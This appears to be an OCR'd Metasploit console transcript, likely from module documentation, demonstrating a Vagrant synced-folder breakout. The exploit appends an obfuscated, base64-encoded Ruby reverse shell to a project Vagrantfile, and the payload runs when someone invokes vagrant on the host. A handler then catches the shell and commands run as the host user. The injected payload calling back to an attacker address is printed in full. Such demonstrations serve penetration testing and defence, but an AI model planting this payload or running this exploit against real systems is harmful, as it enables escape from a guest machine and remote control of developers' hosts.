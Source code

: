 ```
lport => 4444
msf6 exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Could not verify if /vagrant/Vagrantfile is writable.
[*] Appending payload (516 bytes) to /vagrant/Vagrantfile ...
[*] Payload appended to /vagrant/Vagrantfile
[*] The payload will be executed when a user runs any vagrant command from within the project directory on the host system.
[!] This module requires manual removal of the payload from the project Vagrantfile: /vagrant/Vagrantfile
msf6 exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > use exploit/multi/handler
[*] Using configured payload windows/x64/shell/reverse_tcp
msf6 exploit(multi/handler) > set payload ruby/shell_reverse_tcp
payload => ruby/shell_reverse_tcp
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf6 exploit(multi/handler) > run -jz
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.200.130:4444 
msf6 exploit(multi/handler) > [*] Command shell session 2 opened (192.168.200.130:4444 -> 192.168.200.204:51524) at 2022-10-16 06:34:04 -0400

msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare),138(libvirt)
pwd
/home/user/vagrant/windows2019
tail -n 13 Vagrantfile

code = %(cmVxdWlyZSAnc29ja2V0JztjPVRDUFNvY2tldC5uZXcoIjE5Mi4xNjguMjAwLjEzMCIsIDQ0NDQpOyRzdGRpbi5yZW9wZW4oYyk7JHN0ZG91dC5yZW9wZW4oYyk7JHN0ZGVyci5yZW9wZW4oYyk7JHN0ZGluLmVhY2hfbGluZXt8bHxsPWwuc3RyaXA7bmV4dCBpZiBsLmxlbmd0aD09MDsoSU8ucG9wZW4obCwicmIiKXt8ZmR8IGZkLmVhY2hfbGluZSB7fG98IGMucHV0cyhvLnN0cmlwKSB9fSkgcmVzY3VlIG5pbCB9).unpack(%(m0)).first
if RUBY_PLATFORM =~ /mswin|mingw|win32/
inp = IO.popen(%(ruby), %(wb)) rescue nil
if inp
inp.write(code)
inp.close
end
else
if ! Process.fork()
eval(code) rescue nil
end
end
```
